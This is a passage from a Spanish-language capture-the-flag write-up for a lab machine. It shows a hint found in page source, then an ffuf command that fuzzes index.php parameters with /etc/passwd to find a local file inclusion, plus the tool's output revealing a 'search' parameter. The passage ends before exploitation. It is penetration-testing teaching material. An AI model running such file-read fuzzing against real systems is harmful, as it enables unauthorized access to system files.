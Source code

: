 Si nos metemos dentro veremos lo siguiente.

```
agent lin,

I have encrypted this message so that you can see it alone, 
I need you to help me with a super secret mission, 
but I can't tell you the credentials yet, 
you will have to see them yourself, 
prepare something inside the page so that you can see them easily you just have to search more.

Good luck agent lin.
```

Por lo que nos da una pista de que busquemos, asi que ahora si, buscaremos por el `index.php` si hubiera algun parametro vulnerable.

## FUZZ

```shell
ffuf -u http://<IP>/index.php\?FUZZ\=/etc/passwd -w <WORDLIST> -fs 978
```

Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.18.0.2/index.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 978
________________________________________________

search                  [Status: 200, Size: 1257, Words: 36, Lines: 33, Duration: 0ms]
:: Progress: [20469/20469] :: Job [1/1] :: 9090 req/sec :: Duration: [0:00:09] :: Errors: 0 ::
```

Vemos que hay un parametro llamado `search` que es vulnerable a ello, por lo que haremos lo siguiente.
